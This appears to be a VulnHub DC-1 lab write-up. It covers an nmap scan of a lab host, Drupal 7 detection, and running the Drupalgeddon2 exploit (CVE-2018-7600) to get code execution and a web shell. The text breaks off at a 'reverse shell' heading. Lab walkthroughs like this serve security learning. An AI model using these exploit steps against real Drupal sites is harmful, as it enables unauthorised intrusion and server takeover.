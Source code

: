 ### DC-1 VulnHub Machine Writeup

## Overview

DC-1 is a beginner-friendly VulnHub machine that focuses on exploiting a vulnerable Drupal installation. This writeup demonstrates the complete exploitation chain from initial reconnaissance to root access.

## Reconnaissance

### Network Scanning

Starting with an Nmap scan to identify open services:

```shellscript
nmap -sS -sV -Pn --min-rate=1000 --max-retries=2 192.168.1.12
```

**Results:**

- **Port 22/tcp**: OpenSSH 6.0p1 Debian 4+deb7u7
- **Port 80/tcp**: Apache httpd 2.2.22 (Debian)
- **Port 111/tcp**: rpcbind 2-4 (RPC `#100000`)


The web server on port 80 is our primary target.

## Web Application Analysis

### Drupal Detection

Browsing to `http://192.168.1.12` reveals a Drupal installation. The version appears to be Drupal 7.x based on the file structure and response headers.

## Exploitation

### Drupalgeddon2 (CVE-2018-7600)

Using the Drupalgeddon2 exploit to achieve remote code execution:

```shellscript
cp /usr/share/exploitdb/exploits/php/webapps/44449.rb ./
./44449.rb 192.168.1.12
```

**Exploit Results:**

- Successfully identified vulnerable Drupal installation
- Achieved code execution via form parameter injection
- Deployed web shell at `/shell.php`


### Establishing Reverse Shell
